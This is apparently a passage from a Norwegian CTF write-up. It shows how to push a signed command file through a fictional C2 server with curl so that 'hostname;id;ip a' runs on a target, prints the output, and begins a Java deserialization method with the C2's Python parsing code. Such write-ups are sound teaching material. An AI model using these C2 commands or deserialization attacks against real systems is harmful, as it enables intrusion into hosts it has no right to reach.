 > En liste over alle de infiserte klientene deres?
> 
> Den test-instansen som fortsatt sjekker inn så spennende ut...

### 2.09_cloud-hq

Ut fra hintet i forrige oppgave, er neste mål serveren som heter "test-3". Den er fortsatt aktiv og kontakter C2 med jevne mellomrom. For å koble til denne må vi gjennom C2-serveren og lure den til å sende en payload som gir oss tilgang. Vi har et par pre-signerte payloads fra shady-aggregator-serveren, og en av de er `cmd_sysinfo` som kaller `hostname;id;ip a`. 

Sender denne til C2 med destinasjon DEADBEEFDEADBEEF
`curl "http://shady-aggregator.utl/f52e6101/DEADBEEFDEADBEEF/commands" -F "file=@cmd_sysinfo"`

etterfulgt av en /checkins for å se resultatet

```bash
curl "http://shady-aggregator.utl/f52e6101/DEADBEEFDEADBEEF/checkins"

+ Signature is valid.
+ Executing command:
- Recipient: ALL
- When: 1970-01-01T00:00:01Z
- Type: class commands.Execute
- Value: hostname;id;ip a
Executing command 'hostname;id;ip a':
cloud-hq-79
uid=1000(oper) gid=1000(oper) groups=1000(oper)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
6731: eth0@if6732: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default
    link/ether 02:42:0a:00:18:e2 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.0.24.226/27 brd 10.0.24.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Målet er altså serveren `cloud-hq-79` og vi vet brukernavnet som hører til. Det vil hjelpe oss med å skreddersy en exploit.

For å lure inn en egen exploit til `cloud-hq-79` er det 3 metoder som kan brukes. Jeg skal gå gjennom alle sammen, siden dette steget virket å være det de fleste satt fast på.

#### Metode 1 - Deserialization

Payloaden som sendes er et serialisert Java-objekt som inkluderer et signaturfelt. Første mottaker av denne er C2-serveren, som bruker Python og modulen `javaobj` til å parse objektet.

```python
def __init__(self, fd) -> None:
    obj: javaobj.JavaObject = javaobj.load(fd)
    self.type: str = "class " + obj.get_class().name
    self.recipient: str = obj.recipient
    self.run_after: int = obj.runAfter.second + obj.runAfter.nano / 1e9
    self.value: str = obj.value
    self.signature: bytes = bytes(
        map(lambda x: (x + 256) % 256, obj.signature._data)
    )

def __str__(self) -> str:
    when = datetime.utcfromtimestamp(self.run_after)
    return (
        f"- Recipient: {self.recipient}\n"
        + f"- When: {when:%Y-%m-%dT%H:%M:%SZ}\n"
        + f"- Type: {self.type}\n"
        + f"- Value: {self.value}\n"
    )
```